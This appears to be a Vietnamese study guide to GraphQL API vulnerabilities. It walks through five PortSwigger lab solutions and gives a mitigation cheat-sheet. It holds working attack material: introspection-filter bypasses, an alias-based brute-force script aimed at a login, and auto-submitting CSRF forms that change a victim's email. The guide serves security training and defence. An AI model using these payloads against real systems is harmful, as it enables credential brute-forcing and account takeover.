

# GraphQL API

---

## 1. Giới thiệu chung

**GraphQL** là một *API query language* do Facebook phát triển, cho phép client chỉ định **chính xác** dữ liệu mình muốn lấy trong một request duy nhất. Khác với REST (nhiều endpoint theo resource), GraphQL **chỉ dùng 1 endpoint duy nhất** cho mọi thao tác — thường là `POST /graphql`.



### Điểm khác biệt với REST

- REST: nhiều endpoint, mỗi endpoint trả về structure cố định → dễ over-fetching / under-fetching.
- GraphQL: 1 endpoint, client quyết định trả về cái gì → linh hoạt, nhưng mở ra nhiều attack surface mới.

### Ba loại operation chính

- **Query**: lấy dữ liệu (tương đương `GET`).
- **Mutation**: thay đổi dữ liệu — add/update/delete (tương đương `POST`, `PUT`, `DELETE`).
- **Subscription**: duy trì kết nối lâu dài (thường qua WebSocket) để server push real-time.

---

## 2. Lý thuyết

### 2.1. Schema

Schema là **contract giữa frontend và backend**, định nghĩa các `type`, `field`, và quan hệ. Viết bằng *schema definition language (SDL)*.

```graphql
type Product {
  id: ID!
  name: String!
  description: String!
  price: Int
}
```

Dấu `!` nghĩa là field **non-nullable** (bắt buộc). Schema bắt buộc có ít nhất 1 query.

### 2.2. Query

```graphql
query myGetProductQuery {
  getProduct(id: 123) {
    name
    description
  }
}
```

Các thành phần: operation type (`query`), tên (optional), data structure, arguments (optional).

### 2.3. Mutation

Mutations thay đổi dữ liệu theo nhiều cách khác nhau, bao gồm thêm mới, xóa hoặc chỉnh sửa dữ liệu. Chúng tương đương (ở mức khái niệm) với các phương thức POST, PUT và DELETE trong REST API.

```graphql
mutation {
  createProduct(name: "Flamin' Cocktail Glasses", listed: "yes") {
    id
    name
    listed
  }
}
```

### 2.4. Fields, Arguments, Variables

- **Fields**: các mục dữ liệu queryable trong mỗi type.
- **Arguments**: giá trị truyền cho field, vd `getEmployee(id: 1)`.
- **Variables**: tách argument thành biến động trong JSON dictionary riêng, dễ reuse.

```graphql
query getEmployeeWithVariable($id: ID!) {
  getEmployees(id: $id) {
    name { firstname lastname }
  }
}
# Variables: { "id": 1 }
```

### 2.5. Aliases

Cho phép gọi **cùng 1 field nhiều lần** trong 1 query — bình thường sẽ conflict tên.

```graphql
query getProductDetails {
  product1: getProduct(id: "1") { id name }
  product2: getProduct(id: "2") { id name }
}
```

> **Nguy cơ bảo mật**: aliases là kỹ thuật **bypass rate limiting** rất phổ biến — xem mục 3.6.
> 

### 2.6. Fragments

Đoạn query tái sử dụng được.

```graphql
fragment productInfo on Product {
  id
  name
  listed
}

query {
  getProduct(id: 1) {
    ...productInfo
    stock
  }
}
```

### 2.7. Introspection

Chức năng **built-in** của GraphQL cho phép query schema của chính server. Dùng cho IDE (GraphiQL, Apollo Studio) và tool generate docs. Query field đặc biệt `__schema`.

> **Cực kỳ quan trọng với attacker**: nếu introspection bật ở production → leak toàn bộ schema → biết hết query/mutation/type/field, dễ dàng exploit tiếp.
> 

---

## 3. Các lỗ hổng chính (theo PortSwigger)

### 3.1. Finding GraphQL endpoints

**Bản chất**: trước khi exploit cần xác định endpoint. Do GraphQL dùng 1 endpoint duy nhất, việc tìm ra nó là bước recon quan trọng.

**Cách phát hiện**:

1. **Universal query** — gửi `query{__typename}` đến endpoint nghi ngờ. Nếu response chứa `{"data": {"__typename": "query"}}` → là GraphQL.
2. **Common endpoint paths**: `/graphql`, `/api`, `/api/graphql`, `/graphql/api`, `/graphql/graphql`. Có thể thêm `/v1`.
3. **Request methods**: chuẩn là `POST` với `Content-Type: application/json`. Nhưng nhiều server còn chấp nhận `GET` hoặc `POST x-www-form-urlencoded` → đáng thử.
4. **Error messages**: GraphQL thường trả "query not present" khi nhận request sai → tín hiệu nhận dạng.

**Tool hỗ trợ**: Burp Scanner tự động test và raise issue `"GraphQL endpoint found"`.

---

### 3.2. Exploiting unsanitized arguments (IDOR)

**Bản chất**: nếu API dùng user-supplied argument để access object trực tiếp mà không check authorization → **Insecure Direct Object Reference (IDOR)**, cho phép truy cập object đáng lẽ bị hidden/unlisted.

**Impact**: 

- Đọc dữ liệu nhạy cảm (user info, private post, unlisted product...).
- Tùy field bị expose, có thể dẫn tới **data breach** nghiêm trọng.

**Cách khai thác** — ví dụ shop:

```graphql
# Query bình thường chỉ trả product đã listed
query { products { id name listed } }
# → [{id:1},{id:2},{id:4}]  (thiếu id 3)

# Attacker query trực tiếp id 3
query { product(id: 3) { id name listed } }
# → {id:3, name:"Product 3", listed: no}  ✓ bypass
```

**Cách khắc phục**:

- Kiểm tra **authorization ở resolver** cho mọi field nhạy cảm (không chỉ ở top-level query).
- Dùng **indirect reference maps** hoặc UUID không đoán được thay cho sequential ID.
- Áp dụng **field-level access control** (ví dụ dùng `@auth` directive).

---

### 3.3. Introspection exposure

**Bản chất**: introspection để bật ở production → attacker lấy được toàn bộ schema, bao gồm queries/mutations ẩn, field description nội bộ, deprecated field còn hoạt động.

**Impact**:

- **Information disclosure** cấp cao.
- Phát hiện các operation debug/admin còn sót.
- Là bước "do thám" để chuẩn bị tấn công sâu hơn (IDOR, injection, auth bypass).

**Cách phát hiện & khai thác**:

Probe đơn giản:

```json
{ "query": "{__schema{queryType{name}}}" }
```

Full introspection query (có thể paste trực tiếp vào Burp Repeater):

```graphql
query IntrospectionQuery {
  __schema {
    queryType { name }
    mutationType { name }
    subscriptionType { name }
    types { ...FullType }
    directives {
      name description
      args { ...InputValue }
      onOperation
      onFragment
      onField
    }
  }
}
fragment FullType on __Type {
  kind name description
  fields(includeDeprecated: true) {
    name description
    args { ...InputValue }
    type { ...TypeRef }
    isDeprecated deprecationReason
  }
  inputFields { ...InputValue }
  interfaces { ...TypeRef }
  enumValues(includeDeprecated: true) {
    name description isDeprecated deprecationReason
  }
  possibleTypes { ...TypeRef }
}
fragment InputValue on __InputValue {
  name description type { ...TypeRef } defaultValue
}
fragment TypeRef on __Type {
  kind name
  ofType { kind name ofType { kind name ofType { kind name } } }
}
```

> Nếu query lỗi → xóa 3 directive `onOperation`, `onFragment`, `onField`.
> 

**Visualize schema**: dùng [http://nathanrandal.com/graphql-visualizer/](http://nathanrandal.com/graphql-visualizer/) — dán JSON response vào, tool vẽ graph quan hệ giữa các type.

**Cách khắc phục**:

- **Disable introspection** ở production (nếu API không phải public).
- Nếu phải để public → review schema kỹ, **ẩn các field nội bộ** (email, hash, role internal...).
- Dùng **persisted queries** / allow-list.

---

### 3.4. Bypassing introspection defenses

**Bản chất**: dev thường dùng regex đơn giản để block keyword `__schema` → bypass dễ dàng bằng ký tự mà GraphQL parser bỏ qua (space, newline, comma) nhưng regex flawed không xử lý đúng.

**Cách khai thác**:

```json
{
  "query": "query{__schema\n{queryType{name}}}"
}
```

Kỹ thuật khác:

- Chuyển method: nếu POST bị chặn, thử **GET** với param URL-encoded.
    
    ```
    GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
    ```
    
- Đổi Content-Type: `application/x-www-form-urlencoded`.

**Cách khắc phục**: disable introspection ở **engine level** (Apollo, GraphQL.js...), không ở middleware regex.

---

### 3.5. Suggestions (Apollo)

**Bản chất**: Apollo GraphQL mặc định trả về gợi ý khi query sai tên field, kiểu `Did you mean 'productInformation' instead?`. Dù introspection tắt, attacker vẫn có thể brute-force dò tên field qua suggestions.

**Impact**: recover gần như toàn bộ schema ngay cả khi introspection disabled.

**Tool**: [Clairvoyance](https://github.com/nikitastupin/clairvoyance) — tự động enumerate schema qua error messages.

**Cách khắc phục**:

- Apollo không cho tắt trực tiếp → cần **workaround** ở response middleware để strip phần "Did you mean...".
- Tham khảo [GitHub thread #3919](https://github.com/apollographql/apollo-server/issues/3919).
- Burp Scanner có check "GraphQL suggestions enabled".

---

### 3.6. Bypassing rate limiting using aliases

**Bản chất**: nhiều rate limiter đếm theo **số HTTP request**, không phải số GraphQL operation. Aliases cho phép nhét nhiều operation vào **1 HTTP request** → lách rate limit.

**Impact**:

- **Brute force** password, OTP, 2FA code trong 1 request.
- **Enumerate** discount code, voucher, user ID hàng loạt.
- Trong nhiều trường hợp có thể → **Account Takeover**.

**Cách khai thác**:

```graphql
query isValidDiscount($code: Int) {
  isvalidDiscount(code: $code) { valid }
  isValidDiscount2: isValidDiscount(code: $code) { valid }
  isValidDiscount3: isValidDiscount(code: $code) { valid }
  # ... nhân lên hàng trăm/nghìn alias
}
```

**Ví dụ classic lab**: bài "Bypassing rate limiting via race conditions" — brute force 2FA code 4 số với 100 alias trong 1 request.

**Cách khắc phục**:

- **Query depth limiting**: chặn query nested quá sâu.
- **Operation limits / alias limits**: giới hạn số alias, số root field, số unique field trong 1 document.
- **Query cost analysis**: gán cost cho mỗi field, reject nếu tổng vượt ngưỡng (vd `graphql-cost-analysis`, Apollo `@cost` directive).
- **Max query size (bytes)**.
- Rate limit **theo operation**, không chỉ theo HTTP request.

---

### 3.7. GraphQL CSRF

**Bản chất**: endpoint GraphQL **không validate Content-Type** và **không có CSRF token** → attacker có thể dụ victim gửi mutation từ site độc hại.

**Điều kiện dễ CSRF**:

- Server accept `GET` request chứa query.
- Server accept `POST` với `application/x-www-form-urlencoded` hoặc `text/plain`.
- Session dựa trên cookie, không có `SameSite=Strict/Lax` chặt chẽ.

> POST với `application/json` **mặc định an toàn** vì trình duyệt phải preflight CORS → attacker không thể forge cross-origin.
> 

**Impact**:

- Thực hiện mutation thay user: đổi email, reset password, chuyển tiền, post nội dung...
- Nếu victim là admin → **Account Takeover** / RCE tùy context.

**Cách khai thác** — GET based:

```html

```

POST-urlencoded based:

```html
<form action="https://vuln.site/graphql" method="POST" enctype="application/x-www-form-urlencoded">
  <input name="query" value='mutation{changeEmail(newEmail:"attacker@evil.com"){success}}'>
</form>
<script>document.forms[0].submit()</script>
```

**Cách khắc phục**:

- **Chỉ accept** `POST` với `Content-Type: application/json`.
- Validate content-type **strict** (reject `text/plain`, `form-urlencoded`).
- Implement **CSRF token** (synchronizer token hoặc double-submit cookie).
- Set cookie `SameSite=Lax` hoặc `Strict`.

---

## 4. Tổng hợp biện pháp phòng ngừa (cheat-sheet)

| Vấn đề | Biện pháp |
| --- | --- |
| Introspection leak | Disable introspection ở production |
| Schema expose field nội bộ | Review schema, tách public/private schema |
| Suggestions leak | Strip "Did you mean" ở response middleware |
| IDOR qua argument | Field-level auth check, indirect reference |
| Rate limit bypass (alias) | Alias limit, depth limit, cost analysis |
| DoS qua nested query | Depth limit, timeout, query complexity scoring |
| CSRF | Chỉ accept `application/json` POST, CSRF token, SameSite cookie |
| Injection (SQLi/NoSQLi qua arg) | Parameterized query, input validation ở resolver |

**Tool đề xuất khi gặp GraphQL**:

- **Burp Suite** (Pro) + extension **InQL Scanner** — tự động introspection, generate query template.
- **GraphQL Voyager / Visualizer** — vẽ schema.
- **Clairvoyance** — brute force schema khi introspection off.
- **graphw00f** — fingerprint GraphQL engine (Apollo, Hasura, Graphene...).
- **graphql-cop** — audit nhanh các lỗ hổng thường gặp.

---

## 5. Hand-on Labs Walkthrough (PortSwigger)

---

### Lab 1 — Accessing private GraphQL posts

**Link**: [https://portswigger.net/web-security/graphql/lab-graphql-reading-private-posts](https://portswigger.net/web-security/graphql/lab-graphql-reading-private-posts)


- **Vulnerability**: IDOR qua argument + introspection exposure
- **Mục tiêu**: tìm bài blog ẩn, lấy password để submit

**Bước 1 — Recon endpoint**

Mình mở lab qua *Burp's browser*, lướt trang blog như user bình thường. Sau đó vào **Proxy > HTTP history** để xem request nào là GraphQL.


Thấy ngay request `POST /graphql/v1` — endpoint chuẩn của GraphQL. Response trả về list blog posts, mỗi post có `id` tuần tự 1, 2, 4, 5... **thiếu id 3**. Đây là tín hiệu rất rõ: có post ẩn ở id 3.

**Bước 2 — Introspection để tìm field ẩn**

Mình right-click request → **Send to Repeater**. Trong Burp Pro có shortcut cực tiện: right-click vào body → **GraphQL > Set introspection query**. Burp tự điền full introspection query, khỏi copy-paste từ ngoài.


Send đi → response trả về full schema. Mình để ý type `BlogPost` có field `postPassword` — đây chính là field cần cho solution.


**Bước 3 — Exploit**

Quay lại request lấy blog post, vào tab **GraphQL** của Repeater:

- Panel **Variables**: đổi `id` thành `3`.
- Panel **Query**: thêm field `postPassword` vào query structure.

Query của mình trông giống thế này:

```graphql
query getBlogPost($id: Int!) {
  getBlogPost(id: $id) {
    id
    title
    postPassword
  }
}
# Variables: { "id": 3 }
```

Send → response trả về đúng `postPassword` của post ẩn.


Copy password, submit → **lab solved**.

**Bài học**: Lab basic nhưng dạy đủ 3 thứ — nhận diện endpoint qua HTTP history, dùng introspection để tìm field ẩn, và exploit đơn giản bằng việc thêm field vào query bình thường.

---

### Lab 2 — Accidental exposure of private GraphQL fields

**Link**: [https://portswigger.net/web-security/graphql/lab-graphql-accidental-field-exposure](https://portswigger.net/web-security/graphql/lab-graphql-accidental-field-exposure)

- **Vulnerability**: IDOR + expose password field qua query `getUser`
- **Mục tiêu**: login admin → xoá user `carlos`


**Bước 1 — Trap request login**

Mở lab, bấm **My account**, thử login bằng cred bất kỳ (sai cũng được, chỉ cần trap được request). Vào Burp HTTP history: request login là 1 GraphQL **mutation** chứa username và password plaintext.


Send sang Repeater.

**Bước 2 — Introspection + save sitemap**

Dùng lại trick **GraphQL > Set introspection query** → send → có full schema.

Để review schema dễ, mình right-click → **GraphQL > Save GraphQL queries to site map**. Sau đó vào **Target > Site map**, tab **GraphQL** hiện danh sách query/mutation như dạng REST endpoint.


Scroll qua và thấy query đặc biệt: `getUser(id: ID!)` — trả về cả `username` **lẫn** `password`. Leak trắng trợn.


**Bước 3 — Brute ID admin**

Right-click `getUser` → Send to Repeater. Default `id: 0` trả `null`. Mình thử id từ 1 (admin thường có id nhỏ nhất):

```graphql
query {
  getUser(id: 1) {
    id
    username
    password
  }
}
```

→ response trả luôn `username: administrator` kèm password.


**Bước 4 — Login + delete carlos**

Vào trang login của lab, dùng cred admin vừa lấy. Vào **Admin panel**, xoá user `carlos` → **lab solved.**

**Bài học**: Đừng bao giờ để field `password` (hay hash, token, secret) nằm trong response của GraphQL query. Dù REST có thể không expose, GraphQL vẫn "vô tình" lộ ra qua introspection hoặc qua field hiếm dùng.

---

### Lab 3 — Finding a hidden GraphQL endpoint

**Link**: [https://portswigger.net/web-security/graphql/lab-graphql-find-the-endpoint](https://portswigger.net/web-security/graphql/lab-graphql-find-the-endpoint)

- **Vulnerability**: hidden endpoint + introspection defense bypass (flawed regex)
- **Mục tiêu**: tìm endpoint ẩn, xoá `carlos`


**Bước 1 — Probe common paths**

Lab này khó hơn vì endpoint không lộ qua traffic. Mình mở Repeater, dùng 1 request HTTP/GET gốc rồi edit path, thử lần lượt:

- `/graphql` → 404
- `/api/graphql` → 404
- `/graphql/api` → 404
- `/api` → **"Query not present"** 🎯


Error `Query not present` là dấu hiệu đặc trưng của GraphQL engine khi không nhận được param `query`. Confirm bằng universal query:

```
GET /api?query=query{__typename} HTTP/1.1
```

Response:

```json
{"data":{"__typename":"query"}}
```

→ đúng là GraphQL, và nó accept **GET** (hầu hết endpoint production chỉ chịu POST JSON).


**Bước 2 — Thử introspection → bị chặn**

Right-click request → **GraphQL > Set introspection query**. Vì endpoint là GET, Burp tự động URL-encode query rồi nhét vào URL param.

Send → response báo introspection disabled.


**Bước 3 — Bypass defense bằng newline**

Theo PortSwigger, dev thường dùng regex kiểu `/__schema\s*{/` để block introspection → bypass bằng cách chèn ký tự whitespace mà parser GraphQL bỏ qua nhưng regex không match. Mình chèn `%0a` (newline URL-encoded) **ngay sau** `__schema`:

```
/api?query=query+IntrospectionQuery+%7B%0A++__schema%0a+%7B...
```

GraphQL parser coi `__schema\n{` == `__schema{` nhưng regex `"__schema{"` KHÔNG match → query lọt qua filter → **full schema trả về** .


**Bước 4 — Tìm mutation + delete carlos**

**GraphQL > Save queries to site map** → vào Site map browse schema. Mình tìm được 2 operation quan trọng:

- `getUser(id: Int)` — dùng để tìm id của carlos.
- `deleteOrganizationUser(input: {id})` — dùng để xoá.

Iterate `getUser(id: 1, 2, 3...)` → tại `id: 3` trả về `carlos`.


Construct mutation (vẫn phải qua GET vì endpoint chỉ chịu GET):

```graphql
mutation {
  deleteOrganizationUser(input: {id: 3}) {
    user { id }
  }
}
```

Encode thành URL:

```
/api?query=mutation+%7B%0A%09deleteOrganizationUser%28input%3A%7Bid%3A+3%7D%29+%7B%0A%09%09user+%7B%0A%09%09%09id%0A%09%09%7D%0A%09%7D%0A%7D
```

Send → carlos bị xoá → **lab solved**.


**Bài học**:

- Luôn probe `/api` — dev hay quên path này.
- Introspection "disabled by regex" là **fake security** — bypass trivial bằng whitespace/newline/comma.
- Khi endpoint chỉ accept GET → mọi mutation cũng phải qua GET (URL-encoded).

---

### Lab 4 — Bypassing GraphQL brute force protections

**Link**: [https://portswigger.net/web-security/graphql/lab-graphql-brute-force-protection-bypass](https://portswigger.net/web-security/graphql/lab-graphql-brute-force-protection-bypass)

- **Vulnerability**: rate limit đếm theo HTTP request → bypass bằng aliases
- **Mục tiêu**: brute force login `carlos` với wordlist authentication lab passwords (100 passwords)


**Bước 1 — Verify rate limit có thật**

Thử gửi liên tục nhiều login request sai trong Repeater → sau vài request thì response báo rate limit error. OK — confirm rate limiter tồn tại.


**Bước 2 — Tạo payload 100 aliases**

PortSwigger có sẵn script JavaScript để build payload nhanh (ở Tips). Mình mở Burp browser, bấm `F12` → tab **Console**, paste script:

```jsx
copy(`123456,password,12345678,qwerty,123456789,12345,1234,111111,1234567,dragon,123123,baseball,abc123,football,monkey,letmein,shadow,master,666666,qwertyuiop,123321,mustang,1234567890,michael,654321,superman,1qaz2wsx,7777777,121212,000000,qazwsx,123qwe,killer,trustno1,jordan,jennifer,zxcvbnm,asdfgh,hunter,buster,soccer,harley,batman,andrew,tigger,sunshine,iloveyou,2000,charlie,robert,thomas,hockey,ranger,daniel,starwars,klaster,112233,george,computer,michelle,jessica,pepper,1111,zxcvbn,555555,11111111,131313,freedom,777777,pass,maggie,159753,aaaaaa,ginger,princess,joshua,cheese,amanda,summer,love,ashley,nicole,chelsea,biteme,matthew,access,yankees,987654321,dallas,austin,thunder,taylor,matrix,mobilemail,mom,monitor,monitoring,montana,moon,moscow`
  .split(',')
  .map((element, index) => `
bruteforce$index:login(input:{password: "$password", username: "carlos"}) {
  token
  success
}
`.replaceAll('$index', index).replaceAll('$password', element))
  .join('\n'));
console.log("The query has been copied to your clipboard.");
```

Script build ra payload 100 aliased mutation, copy sẵn vào clipboard.


**Bước 3 — Craft request trong Repeater**

Quay lại Repeater (dùng login request đã trap lúc trước), vào tab GraphQL:

- **Xoá** phần ($input: LoginInput!)
- Paste payload clipboard vào trường `query`.

Body giờ có dạng:

```graphql
mutation {
  bruteforce0: login(input: {password: "123456", username: "carlos"}) { token success }
  bruteforce1: login(input: {password: "password", username: "carlos"}) { token success }
  bruteforce2: login(input: {password: "12345678", username: "carlos"}) { token success }
  ...
  bruteforce99: login(input: {password: "moscow", username: "carlos"}) { token success }
}
```

Click **Send**. Vì tất cả 100 attempts nằm trong **1 HTTP request duy nhất** → rate limiter (đếm theo request) không trigger.

Response trả về 100 block JSON, mỗi block ứng với 1 alias. Dùng thanh **search** dưới response, tìm chuỗi `"success": true`. Khi tìm thấy, match sẽ ở alias `bruteforce<N>` nào đó.


Đối chiếu index N sang request → tìm password tương ứng trong list ban đầu.


**Bước 4 — Login**

Login trực tiếp bằng `carlos` + password vừa crack được → **lab solved** .

**Bài học**:

- Aliases = đưa N operations vào 1 HTTP request → **bypass mọi rate limiter đếm theo request**.
- Khi craft payload lớn, luôn dùng script (JS trong DevTools console, hoặc Python) thay vì gõ tay.
- Defense đúng phải là: **alias limit**, **query cost analysis**, hoặc rate limit đếm theo operation thay vì theo request.

---

### Lab 5 — Performing CSRF exploits over GraphQL

**Link**: [https://portswigger.net/web-security/graphql/lab-graphql-csrf-via-graphql-api](https://portswigger.net/web-security/graphql/lab-graphql-csrf-via-graphql-api)

- **Vulnerability**: endpoint accept `x-www-form-urlencoded` POST → không có CSRF token → CSRF
- **Mục tiêu**: craft HTML exploit đổi email của victim, deliver qua exploit server
- Lab có sẵn cred: `wiener:peter`


**Bước 1 — Trap mutation đổi email**

Login bằng `wiener:peter`. Vào **My account**, nhập email mới, bấm **Update email** → intercept request. Đây là GraphQL mutation `changeEmail` với `Content-Type: application/json`.


Send sang Repeater. Send lại với email khác → thành công → confirm **session cookie dùng được nhiều lần** và **không có CSRF token**.

**Bước 2 — Thử chuyển content-type sang form-urlencoded**

Key test: chuyển request từ `application/json` sang `x-www-form-urlencoded`. Trong Repeater right-click → **Change request method** → **Change request method** (lần 2).


Burp convert POST JSON → GET → POST form-urlencoded. Body ban đầu bị xoá sạch — mình phải thêm lại thủ công, URL-encode phần query:

```
query=%0A++++mutation+changeEmail%28%24input%3A+ChangeEmailInput%21%29+%7B%0A++++++++changeEmail%28input%3A+%24input%29+%7B%0A++++++++++++email%0A++++++++%7D%0A++++%7D%0A&operationName=changeEmail&variables=%7B%22input%22%3A%7B%22email%22%3A%22hacker%40hacker.com%22%7D%7D
```

Send → email vẫn đổi thành công ⇒ **endpoint chấp nhận form-urlencoded** ⇒ có thể CSRF.


**Bước 3 — Generate CSRF PoC**

Right-click request → **Engagement tools > Generate CSRF PoC**. Burp tạo sẵn 1 HTML form auto-submit.


**Quan trọng**: mình phải edit HTML, đổi email trong `variables` sang 1 giá trị **khác** với email hiện tại của victim (ví dụ `pwned@attacker.com`). Nếu không, khi victim mở exploit, mutation sẽ "đổi email về chính email hiện có" → không thay đổi gì → **lab không pass**.

HTML cuối cùng:

```html
<html>
  <body>
    <form action="https://YOUR-LAB-ID.web-security-academy.net/graphql/v1" method="POST">
      <input type="hidden" name="query" value="mutation changeEmail($input: ChangeEmailInput!) { changeEmail(input: $input) { email } }" />
      <input type="hidden" name="operationName" value="changeEmail" />
      <input type="hidden" name="variables" value='{"input":{"email":"pwned@attacker.com"}}' />
      <input type="submit" value="Submit request" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```

**Bước 4 — Deliver**

Click **Go to exploit server** → paste HTML vào khung body → **Deliver exploit to victim**. Victim truy cập → form auto-submit → mutation chạy với session cookie của victim → email bị đổi → **lab solved** .


**Bài học**:

- `application/json` POST **mặc định an toàn** trước CSRF (nhờ CORS preflight bắt buộc cho content-type "non-simple").
- Nhưng nếu server **cũng** accept `x-www-form-urlencoded` → mở cửa CSRF vì HTML form gửi được content-type này mà **không** trigger preflight.
- Defense: server **chỉ** accept `application/json`, validate content-type **strict**, thêm CSRF token hoặc đặt cookie `SameSite=Strict/Lax`.

---